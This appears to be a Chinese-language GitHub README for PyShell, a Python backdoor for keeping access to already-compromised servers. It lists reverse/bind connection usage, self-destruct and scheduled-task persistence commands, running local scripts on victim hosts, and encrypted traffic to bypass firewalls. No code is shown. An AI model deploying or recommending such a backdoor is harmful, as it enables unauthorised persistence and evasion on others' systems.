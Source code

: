# PyShell
python 后门程序

基于python编写的后门程序，主要用于获取服务器shell以后，留后门或者执行cmd、python脚本使用。

使用方法:

[HELP]  PyShell.exe [-listen(-slave)] [ip] [port]

[HELP]  python PyShell.py [-listen(-slave)] [ip] [port]

connection：

[HELP]  exit    ----退出连接

[HELP]  kill    ----退出连接并自毁程序

[HELP]  playtask    ----创建计划任务

[HELP]  python -p file.py    ----在肉鸡上执行本地python脚本


程序对互相传输的数据进行了加密，以绕过防火墙。

当需要在肉鸡上执行python脚本时，不需要在肉鸡上上传相应的脚本文件，只需将本地脚本内容加密传输到肉鸡，并执行即可。

此程序在执行完命令以后，并不能时时回显结果，也就是说python脚本运行完以后才会返回输出，可以继续完善。

